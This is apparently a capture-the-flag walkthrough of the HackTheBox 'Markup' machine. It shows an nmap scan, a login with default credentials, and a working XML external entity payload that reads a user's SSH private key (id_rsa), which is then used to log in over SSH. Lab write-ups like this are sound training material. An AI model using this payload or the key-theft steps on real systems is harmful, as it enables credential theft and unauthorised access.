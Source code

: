 ```yaml
---
title: Markup - A HackTheBox machine
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - windows
  - xxe
---
```


# Markup -  A HTB machine


```bah
nmap -sC -A 10.129.95.192 -Pn 
```

Open ports: 22, 80 and 443.


In the browser, there is a login panel. Try typical credentials. admin and password work. 

Locate the form to order an item. Capture the request with burp:

```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 108
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=1gjqt353d2lm5222nl3ufqru10

<?xml version = "1.0"?><order><quantity>2</quantity><item>Home Appliances</item><address>1</address></order>
```

Playing around with the request (for instance, nesting some xml) you can check that it's possible to escape the xml tags. This request contains a [xml external entity XEE vulnerability](xml-external-entity-xee.md).


From some responses like the one below (and also from nmap scanning) you know that server runs on a windows:

```
:  DOMDocument::loadXML(): Opening and ending tag mismatch: order line 1 and item in Entity, line: 1 in <b>C:\xampp\htdocs\process.php
```

Also, from source code you know there might be a user called daniel:

![source code](img/markup.png)


As part of a possible exploitation we could try to check if there are ssh private key saved in that user's folder.

```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 182
Origin: http://10.129.95.192
Connection: close
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=1gjqt353d2lm5222nl3ufqru10

<?xml version = "1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>
<order><quantity>2</quantity><item>
&test;
</item><address>1</address></order>
```

The response will be id_rsa private key. [More about XEE attacks](xml-external-entity-xee.md).

Now, as port 22 was open:

```bash
ssh -i id_rsa daniel@10.129.95.192
```

user.txt is in Desktop.




